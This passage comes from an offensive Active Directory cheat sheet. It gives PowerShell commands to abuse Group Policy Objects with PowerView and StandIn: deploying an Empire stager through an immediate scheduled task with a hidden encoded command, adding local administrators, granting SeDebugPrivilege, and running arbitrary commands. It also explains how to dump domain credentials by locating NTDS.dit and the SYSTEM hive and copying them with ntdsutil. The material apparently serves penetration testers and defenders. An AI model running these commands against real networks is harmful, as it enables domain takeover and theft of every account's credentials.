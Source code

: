 #### Abuse GPO with PowerView

```powershell
# Enumerate GPO
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}

# New-GPOImmediateTask to push an Empire stager out to machines via VulnGPO
New-GPOImmediateTask -TaskName Debugging -GPODisplayName VulnGPO -CommandArguments '-NoP -NonI -W Hidden -Enc AAAAAAA...' -Force
```

#### Abuse GPO with StandIn

```powershell
# Add a local administrator
StandIn.exe --gpo --filter Shards --localadmin user002

# Set custom right to a user
StandIn.exe --gpo --filter Shards --setuserrights user002 --grant "SeDebugPrivilege,SeLoadDriverPrivilege"

# Execute a custom command
StandIn.exe --gpo --filter Shards --tasktype computer --taskname Liber --author "REDHOOK\Administrator" --command "C:\I\do\the\thing.exe" --args "with args"
```

### Dumping AD Domain Credentials

You will need the following files to extract the ntds : 
- NTDS.dit file
- SYSTEM hive (`C:\Windows\System32\SYSTEM`)

Usually you can find the ntds in two locations : `systemroot\NTDS\ntds.dit` and `systemroot\System32\ntds.dit`.
- `systemroot\NTDS\ntds.dit` stores the database that is in use on a domain controller. It contains the values for the domain and a replica of the values for the forest (the Configuration container data).
- `systemroot\System32\ntds.dit` is the distribution copy of the default directory that is used when you install Active Directory on a server running Windows Server 2003 or later to create a domain controller. Because this file is available, you can run the Active Directory Installation Wizard without having to use the server operating system CD.

However you can change the location to a custom one, you will need to query the registry to get the current location.

```powershell
reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"
```

#### Using ndtsutil

```powershell
C:\>ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\pentest
ifm: quit
ntdsutil: quit
```
